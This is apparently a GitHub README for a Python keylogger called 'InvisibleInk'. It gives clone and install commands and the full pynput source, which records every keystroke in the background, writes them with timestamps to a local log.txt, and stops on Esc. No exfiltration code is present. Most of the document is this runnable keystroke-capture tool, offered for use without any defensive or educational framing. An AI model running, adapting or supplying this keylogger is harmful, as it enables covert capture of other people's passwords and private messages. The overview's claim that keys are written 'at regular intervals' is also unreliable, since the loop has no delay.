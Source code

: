 
# InvisibleInk

This Python script implements a simple keylogger using the pynput library to capture keystrokes. The script runs in the background, recording keys pressed on the keyboard and saving them to a log file (log.txt).

## Installation

1. Clone the repo or just copy the script to a desired .py file

```bash
git clone https://github.com/yaxhx/keylogger.git
cd keylogger

```
2. Install the pynput library

```bash
pip install pynput

```


## Usage

1. Run the script
```javascript
python key.py

```
2. Stop the script
```bash
Press the 'Esc' key to stop the keylogger.

```

## Script
```python
from pynput import keyboard
import time
import threading
import os
import datetime

class KeyLogger:
    def __init__(self):
        self.keys = []
        self.running = False
        self.file_name = 'log.txt'

    def start(self):
        self.running = True
        self.listener = keyboard.Listener(on_press=self.on_press, on_release=self.on_release)
        self.listener.start()

    def stop(self):
        self.running = False
        self.listener.stop()

    def on_press(self, key):
        if key == keyboard.Key.esc:
            self.stop()
        else:
            self.keys.append(key)

    def on_release(self, key):
        pass

    def write_keys(self):
        while self.running:
            if self.keys:
                with open(self.file_name, 'a') as f:
                    f.write(str(datetime.datetime.now()) + '\n')
                    for key in self.keys:
                        f.write(str(key) + '\n')
                self.keys = []

    def run(self):
        self.start()
        writer = threading.Thread(target=self.write_keys)
        writer.start()
        while self.running:
            time.sleep(1)

    def main(self):
        self.run()

if __name__ == "__main__":
    keylogger = KeyLogger()
    keylogger.main()
```
## Features

- Captures all key presses.
- Records the timestamp of each capture session
- Saves logs to a file (log.txt).
- Stops logging when the Esc key is pressed.

## Script Overview

***'KeyLogger' Class***
>The KeyLogger class contains methods to start, stop, and run the keylogger.

- ***`__init__()`***: Initializes the keylogger, sets up an empty list to store keys, and sets the log file name.

- ***`start()`***: Starts the key listener.
- ***`stop()`***: Stops the key listener.
- ***`on_press(key)`***: Handles key press events. If the Esc key is pressed, it stops the keylogger; otherwise, it adds the key to the list.

- ***`on_release(key)`***: Placeholder for key release events (not used).

- ***`write_keys()`***: Writes the captured keys to the log file at regular intervals.
- ***`run()`***: Starts the key listener and the logging thread.
- ***`main()`***: Entry point to run the keylogger.


<div align="center">
    <img src="https://media.giphy.com/media/xTiTnBELA6Mb1TeeOc/giphy.gif?cid=790b7611daqio7016ovb4mlaptxdctxr6gzfc2zkg01ai0lc&ep=v1_gifs_search&rid=giphy.gif&ct=g">
</div>


